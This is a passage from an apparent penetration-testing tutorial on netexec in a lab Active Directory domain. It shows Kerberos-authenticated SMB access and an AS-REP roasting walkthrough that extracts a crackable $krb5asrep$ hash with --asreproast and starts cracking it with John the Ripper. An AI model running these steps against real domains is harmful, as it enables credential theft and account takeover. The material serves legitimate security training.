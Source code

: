 ```bash
┌──(ori㉿ori)-[~]
└─$ netexec smb 10.250.0.20 -u 'administrator' -p 'lab123!' -k         
SMB         10.250.0.20     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:yl-labs.com) (signing:True) (SMBv1:False)
SMB         10.250.0.20     445    DC01             [+] yl-labs.com\administrator:lab123! (Pwn3d!)
```

The difference in output does not change however, under the hood, *Kerberos* was utilized for the initial authentication step.

### Basic Kerberos Based Attacks

With *netexec's* help, we can execute two very common *Kerberos* based attacks rather easily.

Those *2* attacks are:

* *ASREPRoasting*
* *Kerberoasting*

#### ASREPRoasting

The *ASREPRoasting* attack can be targeted at *Domain Users* without pre-authentication configured. This setting can be configured like so within *dsa.msc*:

![](/assets/imgs/netexec-mastery/Pasted image 20250314232120.png)

In a nutshell, this allows us to request a working *TGT + Session Key* combination from the *Domain Controller* without the need to provide the user's password.

The *TGT* is encrypted using the password hash of the *krbtgt* account thus it won't be crackable (The password of the *krbtgt* is very complex by default!). However, the *Session Key* is encrypted using the user's password meaning that there may be a way to crack it.

To execute the attack and obtain the *Session Key* in an already *John/Hashcat* ready format, we will need to use the *--asreproast* parameter. The *results.txt* in this case is the output file where obtained hashes will be stored.

![](/assets/imgs/netexec-mastery/Pasted image 20250314232826.png)

With the hash now in hand, we can attempt at cracking it:

*NOTE: It is recommended to use the rockyou.txt wordlist for this type of cracking. It can be found as 7z package in /usr/share/wordlists/rockyou.txt.gz on Kali Linux installations.* 

```bash
┌──(ori㉿ori)-[~]
└─$ netexec ldap 10.250.0.20 -u 'administrator' -p 'lab123!' --asreproast results.txt
/usr/lib/python3/dist-packages/bloodhound/ad/utils.py:115: SyntaxWarning: invalid escape sequence '\-'
  xml_sid_rex = re.compile('<UserId>(S-[0-9\-]+)</UserId>')
SMB         10.250.0.20     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:yl-labs.com) (signing:True) (SMBv1:False)
LDAP        10.250.0.20     389    DC01             [+] yl-labs.com\administrator:lab123! (Pwn3d!)
LDAP        10.250.0.20     389    DC01             [*] Total of records returned 4
LDAP        10.250.0.20     389    DC01             $krb5asrep$23$elliot.taylor@YL-LABS.COM:748ea03e029f48bb69a2db7c6a1b45d4$87dd156a050f0ecaa3296d8fe48b60ec97ccb395d73a1621f5740d6dc7dac73c28375373a6ab596d332cf3c9d080e9df582b6e03fc983b581e2ba6df5456523532d37c9959b7fe8e83eebf90e186181899892eb44b7b04e6c226de08a2343d770d2e724c3637e26103d60c2904487ae1625170332da8758006b17d7489ee5677dfa3a05d3b5966403381879659ad6049f3d39ad2d41f4825e2cc20dcffe77b1ef91ed4bb6fd4fa3d79389ae5848e66aa8a5efeb54d83c8218a2cee24ef786a12b40c4e81247cfa68aaa496b68b97b83468652074c3b5e3f1bc017f9db11ec2e88a9117823024f5ca877d

┌──(ori㉿ori)-[~]
└─$ john ./results.txt -w=wordlist.txt                                               
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 ASIMD 4x])
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate left, minimum 4 needed for performance.
```